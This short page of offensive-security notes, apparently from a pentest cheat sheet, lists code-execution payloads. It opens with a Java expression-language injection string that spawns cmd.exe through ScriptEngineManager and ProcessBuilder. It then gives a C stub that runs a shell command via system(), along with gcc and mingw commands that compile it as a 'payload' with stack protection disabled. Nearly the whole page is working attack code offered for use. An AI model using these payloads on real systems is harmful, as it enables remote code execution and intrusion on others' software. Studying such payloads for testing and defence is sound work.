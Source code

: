 # Scripting

## Java

It uses an expression language.

```java
"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("var proc=new java.lang.ProcessBuilder[\\"(java.lang.String[])\\"]([\\"cmd.exe\\",\\"/c\\",\\"calc.exe\\"]).start();")
```

## C

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
  char command[50] = "ls -lah\0";
  system(command);
  return 0;
}
```

Compile the payload depending on the operating system you want to target.

```
$ gcc -Wall -Wno-implicit -static -fno-stack-protector -z execstack -o payload payload.c

$ x86_64-w64-mingw32-gcc -o payload.exe payload.c
```